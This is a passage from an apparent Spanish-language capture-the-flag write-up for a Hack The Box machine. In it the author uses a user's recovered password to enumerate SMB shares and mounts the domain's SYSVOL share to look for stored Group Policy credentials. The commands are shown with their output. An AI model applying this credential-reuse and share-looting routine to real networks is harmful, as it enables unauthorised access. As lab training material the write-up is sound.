 Vemos un **[+]** para el usuario **james**. Asi que vamos a tratar de listar los recursos del servicio SMB con dichas credenciales:

```bash
❯ smbclient -L 10.10.10.52 -U 'james%J@m3s_P@ssW0rd!'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Vemos los recursos `NETLOGON` y `SYSVOL`. Aqui deberíamos estar pensando en el archivo **Group_._xml** alojando en la carpeta `SYSVOL`; así que primero nos instalamos `apt-get install cifs-utils` y creamos una montura en nuestro equipo:

```bash
❯ mount -t cifs //10.10.10.52/SYSVOL /mnt/smbmnt/ -o username='james',password='J@m3s_P@ssW0rd!',domain=WORKGROUP,rw
```

Ya nos creamos la montura y podemos visualizar los recursos de `/mnt/smbmnt` de una formas más rápida con el comando `tree`:

```bash
❯ tree /mnt/smbmnt/
/mnt/smbmnt/
└── htb.local
    ├── DfsrPrivate
    ├── Policies
    │   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
    │   │   ├── GPT.INI
    │   │   ├── MACHINE
    │   │   │   ├── Microsoft
    │   │   │   │   └── Windows NT
    │   │   │   │       └── SecEdit
    │   │   │   │           └── GptTmpl.inf
    │   │   │   └── Registry.pol
    │   │   └── USER
    │   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
    │       ├── GPT.INI
    │       ├── MACHINE
    │       │   └── Microsoft
    │       │       └── Windows NT
    │       │           └── SecEdit
    │       │               └── GptTmpl.inf
    │       └── USER
    └── scripts

16 directories, 5 files
```

